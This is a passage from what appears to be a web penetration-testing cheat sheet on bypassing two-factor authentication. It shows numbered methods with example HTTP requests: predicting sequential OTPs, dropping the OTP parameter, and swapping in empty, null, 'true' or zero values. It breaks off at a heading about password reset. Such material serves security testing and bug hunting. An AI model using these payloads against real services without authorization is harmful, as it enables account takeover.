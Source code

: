 Check if the OTPs generated are sequential, allowing you to predict the next OTP. This can be exploited if the system generates predictable OTPs.

Valid OTP Request 1:
```
POST /request-otp
Content-Type: application/json

{
"2fa": "500060"
}
```
Valid OTP Request 2:
```
POST /request-otp
Content-Type: application/json

{
"2fa": "500061"
}
```
## Method 13: Remove the OTP Parameter

Attempt to bypass 2FA by removing the OTP parameter from the request.

Original Request:
```

POST /validate-otp 
Content-Type: application/json 

{ 
"email": "user@email.com",
"2fa": "500061" 
}
```

Modified Request:
```
POST /validate-otp 
Content-Type: application/json 

{ 
"email": "user@email.com"
}
```
## Method 14: Manipulate the OTP Parameter Values

Try various manipulations of the OTP parameter to see if you can bypass 2FA.
```
POST /validate-otp 
Content-Type: application/json 
{
"2fa": "123456", // make it "2fa": ""
"2fa": "123456", // make it "2fa": "null"
"2fa": "123456", // make it "2fa": "true"
"2fa": "123456", // make it "2fa": null
"2fa": "123456", // make it "2fa": "00000"
```
## Method 15: Password Reset/Email Change Disable 2FA
